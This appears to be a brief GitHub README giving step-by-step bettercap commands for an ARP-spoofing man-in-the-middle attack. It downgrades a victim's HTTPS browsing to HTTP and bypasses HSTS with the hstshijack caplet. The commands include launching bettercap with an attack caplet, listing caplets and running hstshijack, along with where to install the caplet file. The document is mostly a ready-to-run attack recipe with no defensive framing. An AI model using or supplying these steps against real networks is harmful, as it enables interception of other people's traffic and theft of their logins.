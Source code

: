 # Arp-Spoofing for HTTPS

PS: it will only work when the user uses non https search engine like google.ie

## Downgrade HTTPS to HTTP

```bash
bettercap -iface eth0 -caplet https_arp_attack.cap
```

```bash
help
```
Make sure they are on, running:

![image](https://github.com/user-attachments/assets/787dd6e8-5321-4e7d-875a-15eb0ee8262b)


Show caplets:

```bash
caplets.show
```

Run hstshijack/hstshijack caplet:

```bash
hstshijack/hstshijack
```
Then on the target machine if you go a website uses https (go to google.com and search linkedin, click the linkedin web page at the beginning):

![image](https://github.com/user-attachments/assets/df57bb4c-ce8d-48a6-be4f-60b797290fc6)



## For Bypassing HSTS:
Put `hstshijack.cap` here: /usr/local/share/bettercap/caplets/hstshijack
